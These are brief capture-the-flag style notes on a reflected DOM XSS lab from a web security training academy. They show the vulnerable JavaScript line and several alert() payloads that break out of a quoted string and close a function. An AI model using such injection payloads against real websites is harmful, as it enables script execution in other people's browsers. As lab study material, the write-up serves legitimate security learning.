

# Lab: Reflected DOM XSS

URL: https://0a0700590432221b82b4471a0059003b.web-security-academy.net/?search=aaaaaaaa


# Testing the fields:


# Exploitation:

URL: view-source:https://0a0700590432221b82b4471a0059003b.web-security-academy.net/resources/js/searchResults.js


We have to escape:

```js
h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
```

Payload:

```
\"+alert(1)//
```

It did not work.

But if we force close the function with:

```
\"+alert(1)}//
```


```
\"+alert('XSS')}//
```

